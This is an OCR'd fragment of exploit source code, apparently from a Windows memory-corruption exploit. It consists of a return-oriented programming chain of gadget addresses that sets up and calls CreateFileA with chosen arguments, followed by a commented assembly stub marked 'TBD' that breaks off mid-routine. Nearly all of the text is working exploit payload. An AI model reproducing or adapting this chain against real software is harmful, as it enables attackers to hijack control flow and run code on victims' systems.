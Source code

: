 				0x4a801f90,   # pop eax / ret
				0x4a84903c,   # becomes eax (import for CreateFileA)
	 
				# -- call CreateFileA
				0x4a80b692,   # jmp [eax]
	 
				0x4a801064,   # ret
	 
				0x4a8522c8,   # first arg to CreateFileA (lpFileName / pointer to "iso88591")
				0x10000000,   # second arg  - dwDesiredAccess
				0x00000000,   # third arg   - dwShareMode
				0x00000000,   # fourth arg  - lpSecurityAttributes
				0x00000002,   # fifth arg   - dwCreationDisposition
				0x00000102,   # sixth arg   - dwFlagsAndAttributes
				0x00000000,   # seventh arg - hTemplateFile
	 
				0x4a8063a5,   # pop ecx / ret
				0x4a801064,   # becomes ecx
	 
				0x4a842db2,   # xchg eax,edi / ret
	 
				0x4a802ab1,   # pop ebx / ret
				0x00000008,   # becomes ebx - offset to modify
	 
				#
				# This points at a neat-o block of code that ... TBD
				#
				#   and [esp+ebx*2],edi
				#   jne check_slash
				# ret_one:
				#   mov al,1
				#   ret
				# check_slash:
				#   cmp al,0x2f
				#   je ret_one
				#   cmp al,0x41
				#   jl check_lower
				#   cmp al,0x5a
				#   jle check_ptr
				# check_lower:
				#   cmp al,0x61